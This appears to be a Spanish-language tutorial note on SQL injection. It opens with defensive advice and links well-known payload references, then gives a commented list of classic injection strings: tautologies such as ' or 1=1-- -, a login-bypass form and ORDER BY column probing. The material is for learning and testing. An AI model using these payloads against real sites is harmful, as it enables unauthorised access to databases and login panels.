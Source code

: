 Es importante entender los diferentes tipos de inyecciones SQL y cómo pueden utilizarse para obtener información confidencial y controlar una base de datos. Los desarrolladores deben asegurarse de validar adecuadamente la entrada del usuario y de utilizar técnicas de defensa, como la sanitización de entrada y la preparación de consultas SQL, para prevenir las inyecciones SQL en sus aplicaciones web.

A continuación, se proporciona el enlace a la utilidad online de ‘**ExtendsClass**‘ que utilizamos en esta clase:

-   **ExtendsClass MySQL Online**: [https://extendsclass.com/mysql-online.html](https://extendsclass.com/mysql-online.html)


## Conforma una DB

Tenemos: **DB > TABLAS > COLUMNAS > DATOS**
**Antes de la primer coma debemos de colocar un valor que no exista en la DB. Así lo que inyectemos se podrá visualizar.**

* [Cheat-Sheet-SQLI](https://portswigger.net/web-security/sql-injection/cheat-sheet)
* [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)

## Inyecciones 'UNION' mirando el error en el Output de la Web'

Debemos de adivinar cuantas columnas existen. Esperando a que ya no nos muestre el **error**.
* La mayoría de las inyecciones las puedes hacer empezando por  '
* Dependiendo de la web podemos iniciar con camilla y a veces no, cuando es el caso también no es necesario colocar el comentario -- - al final de la query.
* Un indicio de inyección SQL es encontrar en la url **.php?id=** No es necesario que diga **id** también puede tener otro parámetro. 

```bash
# MYSQL

# Rara vez acepta la inyeccion SQL sin el primer ' ya que no existe otra comilla por comentar. Al momento de colocar -- - (comentario) y no sale error en la web podriamos iniciar con las SQLi. 
❯ -- -
❯ order by 3-- -


❯ ' or '1'='1                                         # La mas sencilla y nos devolveria un true, dejamos una comilla sin cerrar ya que la propia query la cerrara
❯ ' or 1=1-- -                                        # La mas sencilla y nos devolveria un true, aveces hace bypass en el panel de autenticacion, pero devuelve todo en la bvase de datos cuando no se utiliza en el panel de login
❯ <user>'-- -                                         # Este se usa en un panel de login 
❯ ' order by 100-- -                                  # Haremos un ordenamiento con la 100va columna e iremos adivinando hasta que no nos marque un error
❯ ' and if()-- a        

+ = Espacio en blanco en la URL
```

